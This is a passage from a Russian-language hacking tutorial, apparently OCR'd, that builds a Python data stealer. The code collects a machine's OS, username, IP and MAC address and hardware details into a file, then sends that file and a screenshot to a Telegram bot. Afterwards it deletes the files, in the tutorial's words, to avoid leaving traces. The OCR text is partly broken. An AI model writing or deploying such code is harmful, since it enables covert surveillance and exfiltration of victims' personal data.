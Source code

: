 ```python

file = open("info.txt", "w") # Открываем файл

file.write(f"[================================================]\n
Operating System: {ost.system}\n Processor: {ost.processor}\n Username:
{name}\n IP adress: {ip}\n MAC adress: {mac}\n Timezone:
{time.year}/{time.month}/{time.day}
{time.hour}:{time.minute}:{time.second}\n Work speed: {workspeed}\n
Download: {download} MB/s\n Upload: {uploads} MB/s\n Max Frequency:
{cpu.max:.2f} Mhz\n Min Frequency: {cpu.min:.2f} Mhz\n Current
Frequency: {cpu.current:.2f}
Mhz\n[================================================]\n") # Пишем

file.close() # Закрываем
```

Длин­ный, но лег­ко чита­емый код. Пер­вая его часть обес­печива­ет
обра­бот­ку коман­ды /start, вто­рая — запись всех дан­ных в файл.
Резуль­тат попадет в info.txt, но путь, конеч­но, мож­но изме­нить
пря­мо в коде.

Де­ло оста­ется за малым — отпра­вить резуль­тат в Telegram.

 

### Отправка данных

Те­перь допол­ним код выше, что­бы он еще и фай­лы отправ­лял.

```python
text = "Screenshot" # Требуется при создании скриншота (текст к фото)

@bot.message_handler(commands=['start']) # Выполняет действия при
команде start

def start_message(message):

upfile = open("Путь до файла\info.txt", "rb") # Читает файлы

uphoto = open("Путь до файла\screenshot.jpg", "rb")

bot.send_photo(message.chat.id, uphoto, text) # Отправляет данные

bot.send_document(message.chat.id, upfile)

upfile.close() # Закрывает файлы (обязательно)

uphoto.close()

os.remove("info.txt") # Удаляет файлы, чтобы не оставлять следы

os.remove("screenshot.jpg")

bot.stop_polling() # Закрывает соединение после отправки

bot.polling() # Создает соединение с ботом
```
